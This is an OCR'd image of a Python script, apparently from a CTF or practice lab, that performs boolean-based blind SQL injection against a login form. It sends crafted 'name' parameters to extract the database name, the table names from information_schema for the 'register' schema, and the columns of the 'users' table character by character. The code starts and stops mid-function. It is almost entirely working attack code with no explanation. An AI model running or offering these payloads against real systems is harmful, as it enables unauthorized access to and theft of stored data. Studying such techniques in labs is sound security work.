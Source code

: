 ```bash
	i = 0
	while(not found and i < 256):
		data = f"name=a'or (select length(database()))={i} -- -&password=w&submit="

		r = requests.post(main_url,data=data,headers={"Content-Type": "application/x-www-form-urlencoded"})

		if("Wrong" not in r.text):
			found = True
		if(not found):
			i = i + 1

	if not found:
		return 0
	db=""
	
	for position in range(1,(i + 1)):
		for character in characters:

			data = f"name=a' or (select substring((select database()),{position},1)) = '{character}'-- -&password=w&submit="
		    
			r = requests.post(main_url,data=data,headers={"Content-Type": "application/x-www-form-urlencoded"})
		
			if("Wrong" not in r.text):
				db += character
				break
	return db
def get_tables():

	tables=""
	
	for position in range(1,300):
		for character in characters:

			data = f"name=a' or (select substring((select group_concat(table_name) from information_schema.tables where table_schema = 'register'),{position},1)) = '{character}'-- -&password=w&submit="
		    
			r = requests.post(main_url,data=data,headers={"Content-Type": "application/x-www-form-urlencoded"})
		
			if("Wrong" not in r.text):
				tables += character
				break
	return tables
			
def get_columns():

	cols=""
	
	for position in range(1,100):
		for character in characters:

			data = f"name=a' or (select substring((select group_concat(column_name) from information_schema.columns where table_schema = 'register' and table_name='users'),{position},1)) = '{character}'-- -&password=w&submit="
		    
			r = requests.post(main_url,data=data,headers={"Content-Type": "application/x-www-form-urlencoded"})
		
			if("Wrong" not in r.text):
```